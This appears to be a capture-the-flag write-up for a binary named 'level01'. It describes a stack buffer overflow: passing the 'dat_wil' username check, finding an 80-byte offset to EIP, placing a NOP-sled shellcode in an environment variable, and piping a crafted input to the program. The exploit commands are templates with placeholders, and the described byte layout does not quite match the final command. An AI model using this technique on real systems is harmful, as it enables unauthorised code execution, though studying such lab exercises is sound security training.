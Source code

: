 A first read of ASM code allows us to see that function verify_user_name compares the user name to dat_wil and function verify_user_pass compares password to admin. However, when you try with admin it doesn't work.

Looking closely to the code tell us that finding the password won't help us! It doesn't call any system function for example. Thus, we have to provide our shellcode.

Find the offset to reach the EIP (80)

In order to store our shellcode, we can use environment variables

export SHELLCODE=`python -c 'print "\x90" * [80 - shellcode size] + "shellcode"'`
env | grep SHELLCODE

Find its address with gdb and add some bytes to the address founded in order to jump into the nop sled

Our input will be as follow :
bytes 0-7: "dat_wil", to pass the `verify_user_name` function.
byte  8: '\n', so that the first `fgets` stops taking user input
bytes 9-89: nop sled (80 to overwrite EIP with the next 4 bytes) 
bytes 90-94: Our shellcode address

(python -c 'print "dat_wil" + "\n" + "a" * 80 + "address shellcode reversed"'; cat) | ./level01
